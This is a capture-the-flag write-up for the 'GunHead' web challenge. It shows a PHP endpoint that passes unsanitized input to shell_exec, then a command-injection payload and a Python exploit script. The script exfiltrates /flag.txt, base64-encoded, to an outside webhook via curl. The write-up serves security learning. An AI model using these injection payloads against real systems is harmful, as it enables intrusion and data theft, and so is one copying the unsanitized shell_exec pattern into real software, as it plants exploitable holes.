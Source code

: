 ## GunHead :: Easy
#### Scenario 

```
During Pandora's training, the Gunhead AI combat robot had been tampered with and was now malfunctioning, causing it to become uncontrollable.
With the situation escalating rapidly, Pandora used her hacking skills to infiltrate the managing system of Gunhead and urgently
 needs to take it down.
```

#### Solve

![](/images/gunhead-source-tree.png)

Our mission in this challenge is to disable the **Gunhead** combat robot.  

Here is the landing page:  

![](/images/gunhead_index.png)

While exploring the application, I could not help but notice the terminal icon on the sidebar of the **Gunhead** view.  

This icon opens some kind of web based terminal containing certains commands.  
![](/images/gunhead_commands.png)
  
Let's take a look at the source !  

The application is written in PHP, and uses the MVC design pattern.  
This means that we have to go look at the controller to understand which function is bound to which endpoint.  
Following this will lead us to the executed code when we trigger this endpoint.  

`ReconController.php`:
```php
<?php
class ReconController
{
    public function index($router)
    {
        return $router->view('index');
    }

    public function ping($router)
    {
        $jsonBody = json_decode(file_get_contents('php://input'), true);

        if (empty($jsonBody) || !array_key_exists('ip', $jsonBody))
        {
            return $router->jsonify(['message' => 'Insufficient parameters!']);
        }

        $pingResult = new ReconModel($jsonBody['ip']); // WE initiate a ReconModel instance.

        return $router->jsonify(['output' => $pingResult->getOutput()]);
    }
}
```

Let's go look at the source for the `ReconModel` object.  

```php
<?php
#[AllowDynamicProperties]

class ReconModel
{   
    public function __construct($ip)
    {
        $this->ip = $ip;
    }

    public function getOutput()
    {
        # Do I need to sanitize user input before passing it to shell_exec?
        return shell_exec('ping -c 3 '.$this->ip);
    }
}
```

Here we can see that the object execute a raw shell command with the unsanitized user input.  

This means that command injection is possible.  
We can obtain command execution on the server this way.  

Let's craft our exploit:  

![](/images/command_injection.png)

We can inject a command by terminating the ping command using a semicolon.  
We can then add our own command which will be executing, wether the ping command fails or succeeds.  

```bash
;curl https://webhook.site/3578d2dc-d2dd-468b-a8c9-9bda1f8d1281;
```

#### Exploit Script

```python
#!/usr/bin/env python3
import requests

TARGET = "http://localhost:1337"
HOOK = "<your-hook>"
PING_ENDPOINT = "/api/ping"
PAYLOAD = {"ip": f";curl {HOOK}/$(cat /flag.txt|base64 -w0);"}


if __name__ == "__main__":
    print("[*] Exploitating command injection in Gunhead ...")
    requests.post(TARGET + PING_ENDPOINT, json=PAYLOAD)
```

